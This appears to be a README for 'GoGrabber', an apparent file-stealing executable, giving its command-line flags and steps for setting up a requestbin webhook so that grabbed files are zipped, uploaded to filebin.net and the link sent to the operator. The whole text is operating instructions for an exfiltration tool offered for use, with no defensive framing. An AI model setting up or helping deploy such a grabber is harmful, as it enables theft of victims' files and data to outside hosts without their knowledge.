 

<p align="center">
  <img src="https://i.ibb.co/TbfDrZ8/template.png" alt="GitHub Logo" style="width: 200px;"/>
</p>


##  Usage
`Usage:  GoGrabber.exe  <arg1> `

`[?] GoGrabber.exe -h` 
`--upload       (uploads the zip file to filebin server.)`
`--no-upload    (does not uploads the zip file to filebin server.)`

![Alt text](https://i.ibb.co/RytjPyB/2.png)

Upload:
To establish a new webhook, log in to https://public.requestbin.com first.
Next, modify the code to point to the WebHook's URL using the `webhook` variable.

![Alt text](https://i.ibb.co/LhyGzZR/1.png)

The grabber will upload the files to a random URL on https://filebin.net and send the contents to the webhook.